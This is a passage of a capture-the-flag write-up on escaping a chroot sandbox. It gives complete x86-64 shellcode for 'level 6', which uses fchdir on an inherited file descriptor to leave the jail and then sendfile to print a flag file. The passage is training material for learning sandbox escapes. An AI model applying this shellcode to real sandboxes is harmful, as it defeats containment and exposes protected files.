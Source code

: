 ```
	mov rax, 0x3c
	syscall

old_path: 
	.string "flag"

new_path: 
	.string "/flag2.txt"

flag:
	.string "flag2.txt"
```

&nbsp;

## level 6 
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "fchdir", "open", "read", "write", "sendfile".

- The `fchdir` syscall works similar to `chdir`, the only difference is that it takes a file descriptor as argument.
```
int fchdir(int fd);
```
- So we can effectively just jump out of the `jail/`.
```
# Fchdir syscall
mov rdi, 3
mov rax, 0x51
syscall
```

```
.global _start
.intel_syntax noprefix

_start:
	# Fchdir syscall
	mov rdi, 3
	mov rax, 0x51
	syscall

	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```